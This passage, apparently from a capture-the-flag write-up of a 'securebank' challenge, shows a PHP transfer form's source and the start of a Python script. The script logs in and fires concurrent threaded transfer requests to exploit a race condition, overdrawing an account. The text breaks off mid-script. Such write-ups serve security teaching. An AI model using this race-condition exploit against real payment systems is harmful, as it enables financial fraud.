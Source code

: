```html
1 <div style="color: red"><?=$alert ?></div>
2 <div style="color: green"><?=$success ?></div>
3 <form method="POST">
4 <div class ="mb-3">
5 < label for ="source" class ="form-label">Transfer from</ label >
6 <select name="source">
7 <?php foreach (get_account_numbers_for_current_user() as
$account_number): ?>
8 <option value="<?=$account_number ?>"><?=$account_number
?></option>
9 <?php endforeach; ?>
10 </select>
11 </div>
12 <div class ="mb-3">
13 < label for ="destination" class ="form-label">Transfer to</ label >
14 <input class ="form-control" name="destination">
15 </div>
16 <div class ="mb-3">
17 < label for ="amount" class ="form-label">Amount (EUR)</ label >
18 <input class ="form-control" name="amount" placeholder="0.00">
19 </div>
20 <input type="submit" class ="btn btn-primary" value="Transfer">
21 </form>
```

With the parameters in mind, we can create this python function that initiates a transfer from our
transaction account to the savings account:

```python
1 def transfer(n):
2
3 data = {'source':'EU42SECB00051380016',
4 'destination':'EU88SECB00051380017',
5 'amount':n}
6
7 g = lambda : requests.post(chal+'?page=transfer',cookies=
get_session(),data=data)
8
9 Thread(target=g).start()
```
We use threading here to make the function non blocking and return immediately. Putting everything
together, we now need to call the transfer function in succession with n=5 EUR, so that we may transfer
more money then we actually have in our savings account. Lets put the whole script together

```python
1 import requests
2 from threading import Thread
3
4 chal = 'https://d583fc101b2bd13851584d19-securebank.challenge.master.
cscg.live:31337/'
5
6
7 def get_session():
8 data = {'username':'john','password':'johndoe'}
9 c = requests.get(chal).cookies['PHPSESSID']
10 cookies = {'PHPSESSID':c}
11 requests.post(chal+'index.php?page=login',data=data,cookies=cookies
)
12 print(f'session: {cookies}')
13 return cookies
14
15 def transfer(n):
16
17 data = {'source':'EU42SECB00051380016',
```